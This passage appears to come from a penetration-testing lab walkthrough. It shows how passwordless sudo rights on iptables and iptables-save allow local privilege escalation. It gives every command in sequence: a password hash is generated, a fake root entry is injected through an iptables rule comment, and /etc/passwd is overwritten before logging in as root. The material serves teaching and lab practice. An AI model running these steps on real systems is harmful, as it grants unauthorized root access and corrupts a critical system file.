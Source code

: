 <p>Since both <code>iptables</code> and <code>iptables-save</code> can be executed as sudo without a password, we can leverage this misconfiguration for privilege escalation and gain root access. A detailed breakdown of this method is available in this <a href="https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/">blog post</a>. We can exploit the ability to run <code>iptables-save</code> as sudo to edit the <code>/etc/passwd</code> file and replace the root password hash, effectively escalating our privileges to root.</p>
<p>We create a new password hash for password <code>toor</code> using OpenSSL:</p>
<pre><code class="language-shell-session">[!bash!]$ openssl passwd toor

$1$UnY3zxK5$zXR2dgAYm0YBR9fkNZZW10
</code></pre>
<p>Next, we execute the following three commands to embed the root password hash as a comment in the iptables rule. Later, we will use iptables-save to write this data into /etc/passwd, effectively granting us root access.</p>
<pre><code class="language-shell-session">[!bash!]$ bash
[!bash!]$ sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nroot:$1$UnY3zxK5$zXR2dgAYm0YBR9fkNZZW10:0:0:root:/root:/bin/bash\n'
[!bash!]$ sudo iptables -S
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT -i htb0 -j ACCEPT
-A INPUT -i htb0 -j ACCEPT
-A INPUT -i htb0 -j ACCEPT
-A INPUT -i lo -m comment --comment "
root:$1$UnY3zxK5$zXR2dgAYm0YBR9fkNZZW10:0:0:root:/root:/bin/bash
" -j ACCEPT
</code></pre>
<ul>
<li>The <code>bash</code> ensures we are in a Bash shell.</li>
<li>The <code>--comment</code> flag in iptables command is used to insert the new root password hash into the iptables rule.</li>
<li>The <code>iptables -S</code>, lists all iptables rules, allowing us to confirm that our comment (which includes the root hash) has been added successfully in a new line.</li>
</ul>
<p>Now, we execute the following command to save the modified iptables rules, effectively overwriting /etc/passwd with our injected root password hash:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo iptables-save -f /etc/passwd
</code></pre>
<p>We can verify that our attack was successful by checking the contents of the /etc/passwd file. If everything worked as intended, the file should now contain our injected root hash along with the iptables rules.</p>
<pre><code class="language-shell-session">[!bash!]$ cat /etc/passwd

# Generated by iptables-save v1.8.7 on Thu Mar 13 19:43:59 2025
*filter
:INPUT ACCEPT [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [0:0]
-A INPUT -i htb0 -j ACCEPT
-A INPUT -i htb0 -j ACCEPT
-A INPUT -i htb0 -j ACCEPT
-A INPUT -i lo -m comment --comment "
root:$1$UnY3zxK5$zXR2dgAYm0YBR9fkNZZW10:0:0:root:/root:/bin/bash
" -j ACCEPT
</code></pre>
<p>After this, we can use the following command to login as root:</p>
<pre><code class="language-shell-session">[!bash!]$ su root
